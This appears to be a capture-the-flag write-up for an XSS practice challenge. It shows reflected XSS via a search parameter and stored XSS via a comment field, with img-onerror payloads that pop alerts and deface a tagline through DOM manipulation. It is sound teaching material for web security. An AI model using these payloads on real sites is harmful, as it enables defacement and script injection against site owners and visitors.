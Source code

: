 # Challenge #3 - Poema Reading Club 4

URL: http://3.challenge.xss.site

## Objectives

- As a proof of concept of the hack, you want to change the web page tag line from "Reading club for introspective people with social issues" to "Reading club for introspective people with social and XSS issues."
- You can achieve the above exploiting any of the two vulnerabilities.

## Resources

Please refer to this page to know how to manipulate an HTML page with DOM for superb XSS defacements:

- http://www.w3schools.com/js/js_htmldom.asp

## What you will learn

- How to find XSS vulnerabilities
- How to bypass simple XSS protections
- How to exploit persistent XSS
- How to change the appearance of a web page through DOM manipulation

## hints

- XSS Reflected
- XSS Stored

## XSS Reflected

### Steps

Add some word on the search field and press go.

Search term: example

Search url:
http://3.challenge.xss.site/search.php?term=example

Looking in the source code you will find the term reflected as below.

```
<img src="images/404.png" title="example">
```

To show the alert box we need send the follow payload.

```
"><img src=1 onerror="alert(document.domain)
```

Just add the payload to the search url replacing your search term.

```
http://2.challenge.xss.site/search.php?term="><img src=1 onerror="alert(document.domain)
```

This time our objective is to change the web page tag line from "Reading club for introspective people with social issues" to "Reading club for introspective people with social and XSS issues."

- Resource: https://melvingeorge.me/blog/add-remove-elements-dom-javascript

```
<div id="logo">
    <h1><a href="#">poema</a></h1>
    <p>Reading club for introspective  people with social issues</p>
</div>
```

Looking on the source code, you can see that we have one div with id "logo" and inside one paragraph where we want to change the text.

To change the 

```
var p1 = document.getElementById('logo').getElementsByTagName('p');

p1[0].textContent = 'Reading club for introspective people with social and XSS issues.';
```

Now replacing the payload to our new code.

```
http://2.challenge.xss.site/search.php?term="><img hidden src=1 onerror="var p1 = document.getElementById('logo').getElementsByTagName('p');p1[0].textContent = 'Reading club for introspective people with social and XSS issues.';
```

## XSS Stored

### Steps

The second XSS is on the comments.

Try to send a comment with the follow message.

```
<img src=1 onerror="alert(document.domain)">
```

As you can see the message field is message field is vulnerable to XSS attacks.

As we did before, replace the payload with the code to replace the paragraph.

```
<img src=1 onerror="var p1 = document.getElementById('logo').getElementsByTagName('p');p1[0].textContent = 'Reading club for introspective people with social and XSS issues.';">
```